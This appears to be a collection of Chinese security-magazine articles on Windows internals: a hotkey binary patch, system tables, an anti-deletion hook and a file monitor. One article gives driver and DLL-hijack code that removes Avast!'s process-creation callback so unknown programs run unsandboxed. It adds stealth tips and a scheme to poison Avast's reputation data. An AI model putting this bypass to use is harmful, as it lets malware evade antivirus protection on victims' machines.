下面说说第二种方法，这是我为了彻底解决游戏兼容性而想到的。Hook 技术常用于病毒、木马以及计算机安全软件领域，这里不再详述其原理和实现。简单地说，就是在操作系统注册 Win+Space 这一组快捷键时，把参数替换掉，替换成我们需要的 Ctrl+Space 这一个快捷键，这样就达到了使用 Ctrl+Space 代替 Win+Space 切换输入法的目的。

首先要确定是哪个进程注册了 Win+Space 这组快捷键，使用 PCHunter 这个工具（新版 XueTr）可以查看所有进程注册的热键，这个功能在进程列表右键菜单中。可以看到是 explorer 这个进程注册了这个快捷键，所以我们只需要 Hook Explorer 这个进程对 RegisterHotKey 的调用即可。

先看一下 RegisterHotKey 的函数原型：

```c
BOOL WINAPI RegisterHotKey(
    _In_opt_ HWND hWnd,
    _In_     int id,
    _In_     UINT fsModifiers,
    _In_     UINT vk
);
```

参数分别是：窗口句柄、热键 ID 编号、组合键 Modifiers + vk。我们需要替换 Win+Space，这个组合键对应的 fsModifiers 参数为 8（Win 键），vk 参数是 0x20（Space 空格键）。我们只需要把 fsModifiers 参数由 8 改成 2 即可实现。

由于只是替换一个参数，不必使用 API Hook 技术，这有些大材小用；还可以使用 Patch 技术，前提是这个 fsModifiers 参数是硬编码上去的，而不是通过计算得到的。

接下来使用 WinDBG 进行分析。使用任务管理器结束 explorer 进程，使用 WinDBG 创建 `C:\windows\explorer.exe` 进程，然后中断在程序入口，之后输入如下命令：

```text
bp RegisterHotKey "j (@r9=0x20) '';gc'' "
```

这个命令的意思是，当 RegisterHotKey 的第 4 个参数 vk=0x20 的时候中断运行。我的操作系统是 64 位的，因此第四个参数是放在 r9 寄存器中（x64 调用约定，参数从左到右依次放在 ecx、edx、r8、r9、堆栈）。

断下来后查看调用堆栈，发现这个函数是 InputSwitch.dll 调用的。使用 IDA 工具查看对应代码，发现如下程序片段：

```asm
.text:0000000180004E9B                 lea      rdi, unk_18001BD58
.text:0000000180004EA2                 lea      rbx, qword_180007A00
.text:0000000180004EA9                 mov      esi, 3
.text:0000000180004EAE                 mov      rbp, rax
.text:0000000180004EB1
.text:0000000180004EB1 loc_180004EB1:
.text:0000000180004EB1                 mov      r9d, [rbx+8]      ; vk
.text:0000000180004EB5                 mov      r8d, [rbx]        ; fsModifiers
.text:0000000180004EB8                 mov      edx, [rdi]        ; id
.text:0000000180004EBA                 mov      rcx, rbp          ; hWnd
.text:0000000180004EBD                 call     cs:__imp_RegisterHotKey
.text:0000000180004EC3                 add      rbx, 10h
.text:0000000180004EC7                 add      rdi, 4
.text:0000000180004ECB                 dec      rsi
.text:0000000180004ECE                 jnz      short loc_180004EB1
```

从上面的程序来看，R9 寄存器来源是 rbx 指向的内存，而 rbx 又指向全局内存 180007A00。这个 RegisterHotKey 一共执行了 3 次（esi 计数器），所以可以确定这段程序一共注册了 3 个快捷键，快捷键定义在 180007A00 这个位置。查看这个地址：

```asm
.text:0000000180007A00    qword_180007A00    dq    800000008h, 20h, 80000000Ch, 100000020h, 80000000Ah
.text:0000000180007A00                        dq    200000020h
```

可以看到 3 个快捷键分别是 08 + 20（Win+Space）、0C + 20（Win+Shift+Space）和 0A + 20（Win+Ctrl+Space）。

知道了以上这些就简单了，我们把 Win+Space 的 Win（08）改成 Ctrl（02）就可以了。使用任意一款十六进制编辑工具，例如 WinHex，搜索：

`08000000080000002000000000000000`

在我的 64 位 Win8 系统上，这个数据位于文件偏移 0x6E00，把 08 改成 02 保存，可能会提示权限不足。别急，我们先保存在其他地方。

因为权限问题而无法替换 InputSwitch.dll，是由于文件 ACL 机制。这个文件的所有者是 TrustedInstaller，其他任何用户对这个文件都只有读和执行权限，我们只要变更这个文件所有者为 Administrators 就可以获得修改权限。修改方法是“文件属性-安全-高级-所有者更改”，对象名称框输入 Administrators，确定即可。回到刚才的“属性-安全”对话框，选中 Administrators 组，单击编辑，勾选完全控制，确定，这样文件就可以被修改了。把我们刚才修改好的文件替换到 system32 目录，大功告成！

使用任务管理器结束 explorer 进程，再运行 explorer。试试 Ctrl+Space 快捷键，是不是已经可以很方便地切换输入法啦！

这个方法有一点不足，就是在切换的过程中，屏幕右侧没有弹出窗口指示当前选中的输入法，原因还不清楚，我并没有深究，不过目前看来，我们想要的已经实现了！

## 浅论 Windows“买”的三块表

文/图 木羊

网络语言一直在毁坏各种好词语，如奇葩，如菊花，最近连表也不能幸免。说到表，相信每一个想踏入 Windows 系统编程门槛的人，都一定经历过或者经历着被 IAT、IDT 和 SSDT 诸如此类名字看起来很像、用途看起来也差不多，但功能和效果却完全不同的表绕得头晕眼花，有时候甚至会忍不住赞扬一句“我去年买了个表”。

微软难道是有心折磨我们，所以才特意“买”了这么多表吗？又到底买了多少表呢？这是个很难回答的问题，一来因为 Windows 不开源，只能通过 Dev Kit 来略窥一二；二来 Windows 里的表形结构太多，只是罗列名字都足以写一本很厚的书。不过幸好，表形结构的功能和作用是相同的，这里选了 IAT、IDT 和 SSDT 这三块表作为三个代表就足以说明问题。在具体介绍之前，先回答第一个问题：Windows 为什么需要“买”表？

IAT、IDT 和 SSDT 的英文全写分别为 Import Address Table、Interrupt Descriptor Table 和 System Services Descriptor Table，它们都有个共同点，就是都带着个 Table。Table 这个名字在计算机领域很常见，HTML 有一种标签叫 Table，数据库有一种结构也叫 Table。需要提醒彼 Table 非此 Table，Windows 里的 Table 存在的目的是为外界暴露一个可调用的接口。

写过调用函数的可能反对说，从来没听过调用需要用到 Table。这话也对也不对，回忆一下，我们调用一个函数，如果在同一源代码文件中，可以直接使用函数名；如果不在同一源代码文件中，则需要先使用 import 语句导入再使用，如 `#import <windows.h>`，确实没用到什么表。但真是这样吗？作为实验，我写了一段很简单的 MessageBoxA 调用。

```c
#include <WINDOWS.H>

main()
{
    MessageBoxA(0,0,0,0);
}


```

这段代码写得很丑，不过里面恰好包含了两种看起来相同、实际不同的函数调用。我们知道，程序执行时，首先会调用 main，然后再调用 MessageBoxA。从编程层面看，这两种都是函数调用，但编译以后实际会是怎样呢？

先看 main，反汇编之后如图1所示。
图1

请注意它的反汇编码，是 0xE8 开头，在汇编里，这个叫做直接调用，后面跟的是偏移地址。再看 MessageBoxA，反汇编之后如图2所示。

```asm
0040109B  |.  FF15 9C504000     call dword ptr [<&USER32.MessageBoxA>]
```

图2

对汇编有些了解的可能已经看出来了，这不是传统的 0xE8 调用，而是间接调用 0xFF15，后面跟的 0x0040509C 是一个保存实际调用地址的“变量”，具体的内存情况是这样的：

```text
ds:[0040509C]=7788EA11 (USER32.MessageBoxA)


```

这个“变量”保存了 user32.dll 的导出函数 MessageBoxA 的地址，系统通过读取这个地址完成了间接调用。这个变量显然是调用不可或缺的一环。那么，这个“变量”究竟是什么？请看图3。
图3

上图正是该程序的 IAT 截图，其中对 USER32.MessageBoxA 的导入地址保存在 0x0000509C。请注意，这个地址是 RVA，是一个相对偏移地址，加上程序在内存的基地址 0x00400000 后，即可看出正是上述的“变量”。

从操作系统设计的角度来看，一个系统要保持松耦合，必须强调封装，也就是系统中每个模块都应该尽量彼此独立，减少相互之间的依赖和关联。但这只是理想，实际当然不可能，譬如一个程序需要调用系统功能，就必然要和系统模块产生关联。理想和现实总是存在矛盾的，Windows 选择了用表来折衷解决这个问题，资源以表的形式导出导入，和接口编程的思想有着异曲同工的妙处。

为了更好地展示表的作用，也为了相互区分，接下来串讲一遍 IAT、IDT 和 SSDT 之间的联系。刚才演示了程序如何通过 IAT 调用系统模块，但这个 user32.dll 只是个 Ring3 层的系统模块，操作系统更多的功能是运行在 Ring0 层。譬如说调用 ReadFile 函数，实际执行操作是在 Ring0，操作系统是怎样完成整个过程的呢？

跟踪可以知道，ReadFile 函数最终会调用 ntdll 的 ZwReadFile 函数。这个 ntdll 是系统模块，同样也是在 Ring3 层，但它是最接近 Ring0 层的 Ring3 层系统模块。对 ZwReadFile 函数的反汇编如图4所示。
图4

可以看出，在 ntdll 中，许多函数最终都调用了 edx 的值所指向的内存地址，也就是保存在 0x7FFE0330 中的地址，为 0x77CD7090，如图5所示。
图5

最终执行了 sysenter 指令。在它下方，是一个 int 0x2E 的调用。sysenter 指令是一个比较“新”的指令（也出现了十几年了），Windows 从 XP 开始使用 sysenter 实现从 Ring3 到 Ring0 的调用，在此之前使用的是 int 0x2E。二者仅有速度的区别，效果是一样的。由于后者看起来更明了，这里姑且看看调用第 0x2E 号中断会发生什么。操作系统教科书告诉我们，当一个程序发生中断，系统会首先查找中断向量表。在 Windows 里面，这个中断向量表正是 IDT！现在看看 IDT 中的第 0x2E 号中断向量（Windows 中的术语为例程）是什么，如图6所示。
图6

KiSystemService 函数的作用是根据系统调用号查找到系统函数地址，它和 SSDT 的关系太紧密了，它的查找对象就是 SSDT（准确来说 console 程序查找的是 SSDT，否则是 shadow SSDT）。

上文简单论述了 Windows 设置表的原因，以及使用表的方法。只要我们记住，表（Table）是一种资源接口形式，编程中调用 Windows 的 SDK，就会用到表，通过表来完成间接调用，顺序依次是 IAT->IDT->SSDT，其中 IDT 和 SSDT 保存在 Ring0 层。上文的部分描述不一定严谨，不过相信对帮助理解和记忆 Windows 里的表会有很好的正面作用。

### 卸载监控例程绕过 Avast! 陌生文件提示

文/图 李旭昇

Avast! 是一款来自捷克的安全软件，有着数十年的历史。Avast! 7 中引入了一项新功能：全自动沙盒（Auto-Sandboxing）。简单地说，Avast! 会将陌生但又不能确定为恶意程序的新进程自动转入沙盒中运行，程序在沙盒中被严密监视且无法对计算机造成破坏。笔者简单实验了一下，从网上下载的各类工具都不会被拦截，而自己编写的程序则全部被拦截，效果显著。本文将介绍笔者对该机制的研究过程并给出突破方法。

其实它的原理并不复杂。Avast! 以某种方式拦截进程创建，提取其特征并到数据库中进行查询。如果流行度较低（用户数量少），就将其添加到沙盒内；否则直接放过。笔者将 Windows 自带的计算器程序修改了一个字节后再运行即被拦截，说明 Avast! 所采用的特征是文件的哈希而不是路径。这样一个庞大的哈希数据库是不可能保存在本地的，所以切断网络连接就可能禁用这项机制。经实验，断网时运行陌生文件不会得到提示，且即使恢复网络再运行该程序也不会弹出提示。

不过仅有想法还不行，因为程序一运行就立刻被拦截，这时断网为时太晚。几番尝试后笔者发现 Avast! 对程序加载的 DLL 未做任何检测，于是可以劫持可信程序中的 DLL，在 DLL 中断网并运行程序。

不过困难接踵而至。对于 ADSL 连接，我们可以用 Rasdial 命令断开/恢复连接。而对于其他连接方式，难以使其断网。笔者又实验了 Host 屏蔽等方法，均以失败告终，最终被迫另寻他法。

陷入僵局后，编辑提示可以从 Avast! 的机制入手，而全自动沙盒机制的前提是拦截进程创建。拦截进程创建的方法数不胜数，但 Avast! 作为一款商业软件，不会使用一些非文档化的技术；且 PatchGuard 的出现又禁止了一批底层方法，进一步限制了选择范围。于是 Avast! 最有可能通过 `PsSetCreateProcessNotifyRoutineEx` 设置一个监控例程，并在该例程中完成有关的判断。如图 1 所示，笔者用 PcHunter 工具查看时，发现 Avast! 设置了许多系统回调。
图 1 Avast! 的系统回调

实验表明，用 PcHunter 卸载 aswSnx.SYS 模块中的监控例程后，Avast! 的陌生文件提示功能就会失效。于是便有了如下瞒天过海的方案：DLL 加载一个驱动，驱动在 DriverEntry 中搜索并删除 Avast! 的监控例程。随后 DLL 运行程序并卸载驱动，驱动在 DriverUnload 中恢复 Avast! 的监控例程。经过试验，该方案可行，下面分析一下具体实现。

笔者选择的被劫持对象是 **Windows** 自带的 **cmd.exe**，它导入的 **WINBRAND.dll** 只引用了一个函数，工作量较小。DLL 的逻辑并不复杂，这里只给出伪代码。

```cpp
extern "C" __declspec(dllexport) void BrandingFormatString(){}

BOOL APIENTRY DllMain(HMODULE hModule,
                      DWORD ul_reason_for_call,
                      LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        OpenSCManager();
        InstallDriver();
        StartDriver();
        CreateProcess();
        StopDriver();
        RemoveDriver();
        CloseServiceHandle();
        ExitProcess();
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

以上伪代码首先安装并加载驱动，然后运行指定的程序，接着停止并卸载驱动。唯一需要说明的地方是完成所有工作之后，需要调用 **ExitProcess** 结束进程，否则 **cmd.exe** 会继续执行并极有可能崩溃，从而引起用户警觉。当然也可以将 **BrandingFormatString** 转发到真正的函数上，这样 **cmd.exe** 就能够顺利地继续执行。

下面来看驱动代码。首先要解决的问题是如何定位监控例程。我们通常用 **PsSetCreateProcessNotifyRoutine** 或 **PsSetCreateProcessNotifyRoutineEx** 设置监控例程，以下是这两个函数的反汇编代码。

```asm
lkd> uf PsSetCreateProcessNotifyRoutine
nt!PsSetCreateProcessNotifyRoutine:
829aa7de 8bff         mov   edi,edi
829aa7e0 55           push  ebp
829aa7e1 8bec         mov   ebp,esp
829aa7e3 6a00         push  0
829aa7e5 ff750c       push  dword ptr [ebp+0Ch]
829aa7e8 ff7508       push  dword ptr [ebp+8]
829aa7eb e809000000   call  nt!PspSetCreateProcessNotifyRoutine (829aa7f9)
829aa7f0 5d           pop   ebp
829aa7f1 c20800       ret   8

lkd> uf PsSetCreateProcessNotifyRoutineEx
nt!PsSetCreateProcessNotifyRoutineEx:
82986998 8bff         mov   edi,edi
8298699a 55           push  ebp
8298699b 8bec         mov   ebp,esp
8298699d 6a01         push  1
8298699f ff750c       push  dword ptr [ebp+0Ch]
829869a2 ff7508       push  dword ptr [ebp+8]
829869a5 e84f3e0200   call  nt!PspSetCreateProcessNotifyRoutine (829aa7f9)
829869aa 5d           pop   ebp
829869ab c20800       ret   8
```

它们都调用了 `nt!PspSetCreateProcessNotifyRoutine`，其代码如下。

```asm
lkd> uf nt!PspSetCreateProcessNotifyRoutine
nt!PspSetCreateProcessNotifyRoutine:
829aa7f9 8bff                mov     edi,edi
829aa7fb 55                  push    ebp
829aa7fc 8bec                mov     ebp,esp
829aa7fe 807d0c00            cmp     byte ptr [ebp+0Ch],0
829aa802 53                  push    ebx
829aa803 56                  push    esi
829aa804 57                  push    edi
829aa805 0f84fa000000        je      nt!PspSetCreateProcessNotifyRoutine+0x10a (829aa905)

nt!PspSetCreateProcessNotifyRoutine+0x12:
829aa80b 648b3524010000      mov     esi,dword ptr fs:[124h]
829aa812 66ff8e84000000      dec     word ptr [esi+84h]
829aa819 33db                xor     ebx,ebx
829aa81b c7450ce08c9582      mov     dword ptr [ebp+0Ch],offset nt!PspCreateProcessNotifyRoutine (82958ce0)
```

`nt!PspCreateProcessNotifyRoutine` 指向一个未导出的数组，其中记录着每个 `CreateProcessNotifyRoutine` 的信息，包括例程入口地址。获得该数组起始地址的方法很简单，首先根据 `E8` 作为标志找到 `call` 指令，并计算出 `nt!PspSetCreateProcessNotifyRoutine` 的地址，接着搜索 `nt!PspCreateProcessNotifyRoutine` 的地址。如果读者对于机器指令不是很熟悉，可以查看 DbgPrint 的输出并对照给出的汇编代码。GetNotifyRoutineBase 函数代码如下：

```c
DWORD GetNotifyRoutineBase(){
    //在 PsSetCreateProcessNotifyRoutine 中搜索
    //PspSetCreateProcessNotifyRoutine 函数的地址
    PUCHAR PsSetEntry=(PUCHAR)PsSetCreateProcessNotifyRoutine;
    DWORD PsJmpOffset=0;
    for(int i=0;i<100;i++){
        //E8开头的汇编指令表示 call
        //e84f3e0200 call nt!PspSetCreateProcessNotifyRoutine (829aa7f9)
        if(*(PUCHAR)PsSetEntry==0xe8){
            PsJmpOffset=*(DWORD*)(PsSetEntry+1);
            break;
        }else{
            PsSetEntry++;
        }
    }

    //计算出跳转的目的地址，即 PspSetCreateProcessNotifyRoutine 的入口
    PUCHAR PspSetEntry=PsSetEntry+PsJmpOffset+5;    //call 指令本身占五个字节

    //DbgPrint("%p %p %p %p\n",PsSetCreateProcessNotifyRoutine,PsSetEntry,PsJmpOffset,PspSetEntry);

    DWORD PspNotifyRoutine=0;
    for(int j=0;j<100;j++){
        //查找 PspCreateProcessNotifyRoutine 的地址
        //c7450ce08c9582 mov dword ptr [ebp+0Ch],offset nt!PspCreateProcessNotifyRoutine (82958ce0)
        if(*(PUCHAR)PspSetEntry==0xc7 &&
           *(PUCHAR)(PspSetEntry+1)==0x45 &&
           *(PUCHAR)(PspSetEntry+2)==0x0c){
            PspNotifyRoutine=*(DWORD*)(PspSetEntry+3);
            break;
        }else{
            PspSetEntry++;
        }
    }

    //DbgPrint("%p %p\n",PspSetEntry,PspNotifyRoutine);
    //返回 PspCreateProcessNotifyRoutine 数组的首地址
    return PspNotifyRoutine;
}
```

得到 PspCreateProcessNotifyRoutine 数组的地址之后便离成功近了一步。遗憾的是，微软没有给出该数组的结构，不过我们知道该数组的最大长度（即 `CreateProcessNotifyRoutine` 数目的上限）。在 Windows XP 内，该值为 8；在 Windows 7 内，该值为 64。由于 PcHunter 工具已经给出所有系统回调的入口地址（图 1），我们完全可以分析确定有关的结构。首先查看 `PspCreateProcessNotifyRoutine` 的内容：

```text
lkd> dd 82958ce0
82958ce0  8bc08b8f 8bc6f2d7 8bd0a447 8cc24ebf
82958cf0  94e48627 8bdbcb67 8bdde30f 8fa54e2f
82958d00  00000000 00000000 00000000 00000000
82958d10  00000000 00000000 00000000 00000000
82958d20  00000000 00000000 00000000 00000000
82958d30  00000000 00000000 00000000 00000000
82958d40  00000000 00000000 00000000 00000000
82958d50  00000000 00000000 00000000 00000000
```

根据网上的零星资料，上述八个值对应着八个回调，其低三位为 Flag，其余高位指向一个未公开的结构。我们来看一下。

```text
lkd> dd 8bc08b8f>>3<<3
8bc08b88  00000010 828d3d35 00000000 00000220
8bc08b98  06060203 6d4e624f 00790053 00740073
8bc08ba8  006d0065 00720045 006f0072 00500072
8bc08bb8  0072006f 00520074 00610065 00790064
8bc08bc8  00010206 63536553 060e0201 e3534d43
8bc08bd8  002f91b8 0a9f9af2 8bc331d0 8bc31f00
8bc08be8  0000004c 0000001c 90040001 00000030
8bc08bf8  00000040 00000000 00000014 001c0002
lkd> dd 8bdde30f>>3<<3
8bdde308  00000010 8b33cd66 00000001 0065006d
8bdde318  06050203 6d536d4d 85b1f580 00000100
8bdde328  000c0000 00000000 00100000 00000000
8bdde338  00000000 00000000 06120205 6d4e624f
8bdde348  00430041 00490050 00460023 00780069
8bdde358  00640065 00750042 00740074 006e006f
8bdde368  00320023 00640026 00620061 00330061
8bdde378  00660066 00320026 007b0023 00610034
```

很明显，第一个值为一个地址。如图 1，该值与 PcHunter 软件给出的地址相同，它就是我们需要的例程入口地址。接下来判断监控例程是否在 `aswSnx.SYS` 内。这里用到一份网上的代码，它通过遍历 LDR 链获得所有内核模块起始地址和大小。其原理很简单：`DriverObject->DriverSection` 指向 System 进程的 LDR 链，遍历该链就可以得到所有内核模块的信息。水到渠成，下面我们遍历 `PspCreateProcessNotifyRoutine` 数组并删除 Avast! 的监控例程。

```cpp
extern "C" NTSTATUS
DriverEntry(IN PDRIVER_OBJECT DriverObject, IN PUNICODE_STRING RegistryPath)
{
    DriverObject->DriverUnload = Unload;
    // 获取 aswSnx.SYS 模块的基址和大小
    DWORD ModuleSize = 0;
    DWORD ModuleBase = GetModuleBase(DriverObject, L"aswSnx.SYS", &ModuleSize);
    DbgPrint("Module Base & Size: %p %p\n", ModuleBase, ModuleSize);

    // 获取 PspCreateProcessNotifyRoutine 数组的起始地址
    NotifyRoutineRecord** PspCreateProcessNotifyRoutine =
        (NotifyRoutineRecord**)GetNotifyRoutineBase();
    DbgPrint("NotifyRoutineAddr: %p\n", PspCreateProcessNotifyRoutine);

    // 遍历 PspCreateProcessNotifyRoutine，如果某个回调函数在 aswSnx.SYS 内，
    // 将其删除并返回
    for (int i = 0; i < MaxRoutines; i++) {
        if ((PspCreateProcessNotifyRoutine + i) != NULL) {
            NotifyRoutine = ((NotifyRoutineRecord*)
                (DWORD(PspCreateProcessNotifyRoutine[i]) >> 3 << 3))->NotifyRoutine;

            if (ModuleBase < (DWORD)NotifyRoutine &&
                (ModuleBase + ModuleSize) > (DWORD)NotifyRoutine) {
                DbgPrint("Target found: %p\n", NotifyRoutine);
                PsSetCreateProcessNotifyRoutineEx(NotifyRoutine, TRUE);
                DeleteSuccess = TRUE;
                DbgPrint("Notify Routine DELETED\n");
                return STATUS_SUCCESS;
            } else {
                DbgPrint("%p\n", NotifyRoutine);
            }
        }
    }

    // 没有找到 aswSnx.SYS 内的回调函数
    DbgPrint("Fail to delete Notify Routine\n");
    return STATUS_SUCCESS;
}
```

`PsSetCreateProcessNotifyRoutineEx` 函数的第二个参数表示删除或者添加回调，将其设为 `TRUE` 可以删除监控例程。驱动的 `DriverEntry` 返回 `STATUS_SUCCESS` 后，DLL 中的 `StartDriver` 函数才返回。这样，DLL 调用 `CreateProcessW` 运行 `RunThis.exe` 就不会被拦截了。`RunThis.exe` 是笔者编写的一个测试程序，运行后会不断打印顶层窗口的句柄，紧接着 DLL 停止并卸载驱动。在 `DriverUnload` 中，如果先前成功卸载了 Avast! 的监控例程，就将其恢复。

```c
VOID Unload(PDRIVER_OBJECT DriverObject) {
    if (DeleteSuccess) {
        PsSetCreateProcessNotifyRoutineEx(NotifyRoutine, FALSE);
        DbgPrint("Notify Routine restored\n");
    }
    DbgPrint("Unload!\n");
}


```

如图 2 所示，运行 `cmd.exe` 后，`RunThis.exe` 成功启动，Avast! 没有给出任何提示。但如果直接双击运行 `RunThis.exe` 则会被拦截，如图 3 所示。为了避免这种情况，可以将 `RunThis.exe` 的后缀名改为 `.dll` 或者 `.db`，使其无法直接运行。由于 `CreateProcess` 并不根据后缀名来判断文件是否为可执行文件，并不影响程序运行。如果不怕麻烦，也可以由 DLL 动态地将驱动和要运行的程序释放出来，这样隐蔽性更高。
图 2 运行 `cmd.exe` 后，`RunThis.exe` 成功启动，Avast 没有给出任何提示
图 3 直接双击运行 `RunThis.exe` 会被 Avast! 拦截

在研究过程中，笔者还提出一种更直白的想法：直接污染 Avast! 的数据库。这看起来难以实施，其实不然，原因有两方面：

- 许多相对小众的程序没有被拦截。事实上，除了笔者编写或修改的程序，尚未发现会被拦截的程序。这说明 Avast! 对于陌生程序的判断较为谨慎，只要用户数量不是太小，就不拦截。但这个阈值究竟是多少呢？笔者曾经编写过一个自动完成习题的程序，总共约有五百用户。我本以为这个数目太小，但是 Avast! 却未对其拦截。
- 虽然 Avast! 用户数目接近两亿，但它在国内市场占有率较低。假设 Avast! 在国内有 5% 的占有率，按照五百名用户计算，这相当于有 25 人使用的程序就不算“流行度较低”。

以上估计虽然不准确，但是数量级应该没有大的出入。于是自然的想法就是安装多个虚拟机，伪造有许多人使用某程序的假象。数量达到 Avast! 设定的阈值之后，再运行就不会被拦截了。我用 WireShark 抓包初步验证了这种思路的可行性，不过由于工作量太大而难以完成。所以烦请各位读者在阅读本文之后安装 Avast! 测试一下，也顺便为我用来测试的程序（`RunThis.exe`）增加一名“用户”。读者越多，越有可能超过 Avast! 的阈值，进而使其摆脱“陌生文件”的帽子。

### 通过安装钩子实现文件防删除

文/图 赵显阳（isafe.cc）

钩子是 Windows 中消息处理机制的一个要点，通过安装各种钩子，应用程序能够设置相应的子例程来监视系统里的消息传递，以及在这些消息到达目标窗口程序之前处理它们。钩子的种类很多，每种钩子可以截获并处理相应的消息，如键盘钩子可以截获键盘消息，鼠标钩子可以截获鼠标消息，外壳钩子可以截获启动和关闭应用程序的消息，日志钩子可以监视和记录输入事件。钩子分为线程专用钩子和全局钩子，线程专用钩子只监视指定的线程，要监视系统中的所有线程，必须用到全局钩子。对于全局钩子，钩子函数必须包含在独立的动态链接库（DLL）中，这样才能被各种相关联的应用程序调用。在 Windows 资源管理器中，执行删除时调用的是 `shell32.dll` 文件导出的 `SHFileOperationW` 函数，只要对该函数进行挂钩处理，就可以实现文件防删。

函数 `SHFileOperation` 根据 Win32 程序员参考介绍，是这样描述的：

```c
Performs a copy, move, rename, or delete operation on a file system object.
WINSHELLAPI int WINAPI SHFileOperation(
    LPSHFILEOPSTRUCT lpFileOp
);

Parameters
lpFileOp
Pointer to an SHFILEOPSTRUCT structure that contains information the function needs to carry out the operation.

Return Values
Returns zero if successful or nonzero if an error occurs.
```

翻译一下：在文件系统上执行复制、移动、重命名、删除等操作。该函数有一个参数 `lpFileOp`，是一个指向 `SHFILEOPSTRUCT` 结构的指针，包含了文件操作的相关数据，返回值为 0 表示执行成功，否则执行失败。

`SHFILEOPSTRUCT` 结构体的定义如下：

```c
typedef struct _SHFILEOPSTRUCT { // shfos
    HWND    hwnd;                 // 显示状态信息窗口的句柄，一般设为主窗体的句柄
    UINT    wFunc;                // 要执行的操作
    LPCSTR  pFrom;                // 源文件或目录
    LPCSTR  pTo;                  // 目标文件或目录
    FILEOP_FLAGS fFlags;          // 控制文件操作的标志
    BOOL    fAnyOperationsAborted;// 操作是否放弃
    LPVOID  hNameMappings;        // 文件名映射对象的句柄
    LPCSTR  lpszProgressTitle;    // 进度条标题
} SHFILEOPSTRUCT, FAR *LPSHFILEOPSTRUCT;
```

Delphi 用记录对此结构进行了两种封装：ANSI 和 UNICODE。下面我们编写一段代码，来实现删除 `c:\delFiles` 目录下的文件。打开 Delphi，新建一个工程 DelFile，在“删除”按钮的 `OnClick` 事件中加入如下代码，用于执行删除操作。

```pascal
procedure TForm1.Button1Click(Sender: TObject);
var
  OpStruc: TSHFileOpStruct;
  FromBuf: Array[0..128] of Char;
begin
  FillChar(FromBuf, SizeOf(FromBuf), 0);
  StrPCopy(FromBuf, PChar(Edit1.Text));
  // 开始填充 OpStruc 记录
  with OpStruc do
  begin
    Wnd := Handle;
    wFunc := FO_DELETE;
    pFrom := @FromBuf;
    pTo := nil;
    fFlags := FOF_NOCONFIRMATION;
    lpszProgressTitle := '正在删除';
  end;
  if SHFileOperation(OpStruc) = 0 then
    // 执行成功
    MessageBox(Handle, '删除完毕。', '删除信息', MB_OK + MB_ICONINFORMATION);
end;


```

删除时（`wFunc` 参数设为 `FO_DELETE`），如果想将文件或目录放到回收站（`fFlags` 参数设置为 `FOF_ALLOWUNDO`），则应给出文件的绝对路径名，否则可能无法恢复。对于多个文件的操作，文件名之间要以 `#0` 字符分隔，整个字符串以两个 `#0` 结束。点击“delFile”按钮，文件就被删除了，如图 1 所示。
图 1

该方法调用了 **SHFileOperationW** 函数，只要拦截该函数调用就可以防止文件被删除。

思路其实比较简单，还是利用 DLL。首先根据 API 函数 `SHFileOperationW` 的结构自己编写一个与该 API 一样的函数，再利用 `GetProcAddress` 获取系统 API 函数入口地址，最后用 `WriteProcessMemory` 将编写的函数地址替换掉原来系统的函数地址，这样所有调用这个函数的应用程序都将先执行我们的函数。

下面是一个 DLL 用于全局挂钩 `SHFileOperationW` 函数的关键代码。

```pascal
1. function NewSHFileOperationW(const lpFileOp: TSHFileOpStructW): Integer; stdcall;
2. type
3.   TNewSHFileOperationW = function(const lpFileOp: TSHFileOpStructW): Integer; stdcall;
4. begin
5.   if Pos('calc.exe', lpFileOp.pFrom) > 0 then begin
a)    showmessage('(hooked)SHFileOperationW-无法删除：' + lpFileOp.pFrom);
b)    result := 1;
c)    exit;
6.   end;
7.   Hook[1].UnHook;
8.   Result := TNewSHFileOperationW(Hook[1].BaseAddr)(lpFileOp);
9.   Hook[1].Hook;
10. end;
11. procedure InitHook; // 安装 Hook
12. begin
13.   Hook[1] := TNtHookClass.Create('Shell32.dll', 'SHFileOperationW', @NewSHFileOperationW);
14. end;
```

第 13 行用于创建一个 Hook 对象，会挂钩到新的执行过程 `NewSHFileOperationW`；第 5 行表示如果是删除程序 `calc.exe` 的话，是无法删除的；第 7、8、9 行表示，如果是其它文件的话（如 `notepad.exe`），则先卸载钩子，执行删除操作，再安装钩子。

根据测试，通过 Hook `SHFileOperationW` 函数，即可实现文件防删除的效果。

### 打造自己的文件行为监控器

文/图 马智超（杭州电子科技大学）—DesertEagle

原来写过 Android 系统的文件访问监控，使用了系统提供的接口，利用系统的 API 函数，所以我想 Windows 系统上也应该有相应的 API 函数。没错，不同的平台都有相似处，在 Windows 系统中提供了对文件和目录监控的系统服务，并且为应用程序提供了两个 API 函数，分别是 `FindFirstChangeNotification` 和 `ReadDirectoryChangesW`。这里我选用了 `ReadDirectoryChangesW` 函数，可以用 `ReadDirectoryChangesW` 函数实现对系统目录的监控，通过目录监控文件属性的变化来监控对文件的操作行为。

下面先说具体思路。首先使用 `CreateFile` 获取要监控目录的句柄，然后在一个判断循环里面调用 `ReadDirectoryChangesW`，并且把自己分配的、用来存放目录变化通知的内存首地址、内存长度、目录句柄传给该函数。用户代码在该函数的调用中进行同步等待。当目录中有文件发生改变，控制函数把目录变化通知存放在指定的内存区域内，并把发生改变的文件名、文件所在目录和改变通知进行处理。通过目录变化，进而可以监控对记事本、文本文档、ppt、excel、pdf 文件的操作行为。

监控目录的句柄，可以通过指定目录名，利用 `CreateFile` 函数的返回值获得。

```c
hDir = CreateFile(
    dlg->str,        // str 为目录名
    GENERIC_READ | GENERIC_WRITE,
    FILE_SHARE_READ | FILE_SHARE_WRITE | FILE_SHARE_DELETE,
    NULL,
    OPEN_EXISTING,
    FILE_FLAG_BACKUP_SEMANTICS,
    NULL
);
```

`GENERIC_READ` 表示允许对设备进行读访问；`GENERIC_WRITE` 表示允许对设备进行写访问（可组合使用）。用户代码通过第二个和第三个参数来告知操作系统，把目录变化通知放在首地址为返回信息指针、位于一块内存长度区域中。但是该内存又是怎样组织的呢？操作系统是把它们放在 `FILE_NOTIFY_INFORMATION` 这个结构里面的，可以确定是哪个文件进行了修改，其结构如下：

```c
typedef struct _FILE_NOTIFY_INFORMATION {
    DWORD NextEntryOffset;
    DWORD Action;         // 动作
    DWORD FileNameLength; // 文件名字的长度
    WCHAR FileName[1];    // 文件名字
};
```

```c
}
FILE_NOTIFY_INFORMATION,
*PFILE_NOTIFY_INFORMATION;
```

